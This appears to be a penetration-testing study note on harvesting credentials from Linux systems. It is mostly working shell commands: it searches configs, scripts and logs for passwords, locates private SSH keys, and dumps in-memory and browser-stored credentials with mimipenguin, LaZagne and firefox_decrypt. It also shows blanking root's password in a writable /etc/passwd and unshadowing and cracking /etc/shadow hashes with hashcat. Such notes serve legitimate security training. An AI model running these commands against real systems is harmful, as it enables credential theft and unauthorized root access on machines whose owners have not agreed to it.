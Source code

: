|**`Files`**|**`History`**|**`Memory`**|**`Key-Rings`**|
|---|---|---|---|
|Configs|Logs|Cache|Browser stored credentials|
|Databases|Command-line History|In-memory Processing||
|Notes||||
|Scripts||||
|Source codes||||
|Cronjobs||||
|SSH Keys|||

### Files
#### Bash History 
```shell
 tail -n5 /home/*/.bash*
```


#### Config Files 
```shell
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```
Passwords in config files
```shell
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```
#### Databases
```shell
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```
#### Notes
```shell
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```
#### Scripts
```shell
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```
#### Cronjobs
```shell
cat /etc/crontab 
```

```shell
 ls -la /etc/cron.*/
```

#### SSH Keys
Private Keys
```shell
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
```
Public Keys 
```shell
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```
#### Logs
```shell
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```

### Memory and Cache 
[Mimipenguin](https://github.com/huntergregal/mimipenguin)
```shell
 sudo python3 mimipenguin.py
```

LaZange
```shell
sudo python2.7 laZagne.py all
```

### Browsers 
Firefox 
```shell
ls -l .mozilla/firefox/ | grep default 
```

```shell
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```
Decrypt Passwords 
[Firefox decrypt](https://github.com/unode/firefox_decrypt)
```shell
python3.9 firefox_decrypt.py
```

## Passwd, Shadow and Opasswd

Many use different authentication mechanisms. 
The most common is Plugable Authentication Modules. 
	pam_unix.so
	pam_unix2.so
	Located in /usr/lib/x86_x64-linux-gnu/security/ in Debian

pam_unix.so standard module for management uses standardised API calls from system libraries and files to update account information.  Files are read and updated are /etc/passwd and /etc/shadow.

### Passwd File

Contains existing user on the system and can be read by all users and services. 
Readable system wide
Each entry identifies a use on the system.

|`cry0l1t3`|`:`|`x`|`:`|`1000`|`:`|`1000`|`:`|`cry0l1t3,,,`|`:`|`/home/cry0l1t3`|`:`|`/bin/bash`|
|---|---|---|---|---|---|---|---|---|---|---|---|---|
|Login name||Password info||UID||GUID||Full name/comments||Home directory||Shell|

Very rare for the hash to be encrypted in password information.
Most commonly stored in /etc/shadow

If the file is writable remove the password entry

```shell
root:x:0:0:root:/root:/bin/bash
```
```shell
root::0:0:root:/root:/bin/bash
```
```shell
su 
```

```shell
sudo cp /etc/passwd /tmp/passwd.bak 
```
### Shadow File 
Only contains passwords 

|`cry0l1t3`|`:`|`$6$wBRzy$...SNIP...x9cDWUxW1`|`:`|`18937`|`:`|`0`|`:`|`99999`|`:`|`7`|`:`|`:`|`:`|
|---|---|---|---|---|---|---|---|---|---|---|---|---|---|
|Username||Encrypted password||Last PW change||Min. PW age||Max. PW age||Warning period|Inactivity period|Expiration date|Unused|

```shell
sudo cat /etc/shadow
```
If the password contains a character such as ! or * the user cannot login with a Unix Password. Can still use other authentication methods such as Kerberos or key-based. 
#### Algorithm Types
- `$1$` – MD5
- `$2a$` – Blowfish
- `$2y$` – Eksblowfish
- `$5$` – SHA-256
- `$6$` – SHA-512

#### Cracking Shadow 

```shell
sudo cp /etc/shadow /tmp/shadow.bak 
```
```shell
unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes
```
```shell
hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked
```

### Opasswd

PAM can prevent old passwords being reused. 
Old passwords stored in /etc/security/opasswd.
Root is required to read the file if the permissions have not been changed manually. 

Passwords separated by a comma. 
```shell
sudo cat /etc/security/opasswd
```
